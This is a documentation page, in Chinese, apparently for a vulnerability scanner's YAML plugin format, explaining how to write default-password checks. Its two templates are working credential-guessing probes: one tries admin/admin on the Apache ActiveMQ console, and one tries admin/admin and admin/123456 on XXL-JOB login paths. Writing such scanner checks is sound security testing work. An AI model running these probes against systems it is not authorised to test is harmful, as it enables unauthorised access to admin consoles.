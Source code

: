 ```yaml
---
title: '弱口令/默认口令'
---
```


写弱口令插件需要注意，需要将一些默认的口令放置于payloads中，以便程序可以在后续做一些便捷的替换

<Warning>
  务必在爆破前先写一个check rule检查页面是否可爆破（否则会导致发大量无效的登录包）
</Warning>

默认模版：
```yaml
name: poc-yaml-activemq-weak-password
manual: true
transport: http
payloads:
  # payloads中写默认口令
  payloads:
    p1:
      username: r"admin"   # 用户名的键必须为username
      password: r"admin"   # 密码的键必须为password
      auth: base64(username + ":" + password)   # 这里键名任意
rules:
  check:
    request:
      cache: true   # check页面只需要访问一次，所以cache为true
      method: GET
      path: /admin/
    expression: response.status == 401 && response.body.bcontains(b"Unauthorized")
  auth:
    request:
      cache: false  # 密码爆破不需要使用缓存 
      method: GET
      path: /admin/
      headers:
        Authorization: Basic {{auth}}
    expression: response.status == 200 && response.body.bcontains(b"Welcome to the Apache ActiveMQ Console of") && response.body.bcontains(b"<h2>Broker</h2>")
expression: check() && auth()
detail:
  author: test
  links:
    - https://blog.csdn.net/ge00111/article/details/72765210
```

另外还需要考虑WebContext子目录的问题，比如xxljob有可能部署在子目录/xxl-job-admin下，需要在认证前判定该路径是否存在

```yaml
name: poc-yaml-xxljob-tologin-weak-password
manual: true
transport: http
payloads:
  payloads:
    p1:
      username: r"admin"
      password: r"admin"
    p2:
      username: r"admin"
      password: r"123456"
rules:
  check_0:
    request:
      cache: true
      method: GET
      path: /toLogin
    expression: response.body_string.contains("<a><b>XXL</b>JOB</a>")
  auth_0:
    request:
      cache: false
      method: POST
      path: /login
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: userName={{username}}&password={{password}}
    expression: response.status == 200 && response.body_string.contains('"code":200,')
  check_1:
    request:
      cache: true
      method: GET
      path: /xxl-job-admin/toLogin
    expression: response.body_string.contains("<a><b>XXL</b>JOB</a>")
  auth_1:
    request:
      cache: false
      method: POST
      path: /xxl-job-admin/login
      headers:
        Content-Type: application/x-www-form-urlencoded
      body: userName={{username}}&password={{password}}
    expression: response.status == 200 && response.body_string.contains('"code":200,')
expression: check_0() && auth_0() || check_1() && auth_1()
detail:
  author: Chaitin
  links:
    - https://blog.csdn.net/dsl59741/article/details/106686942
```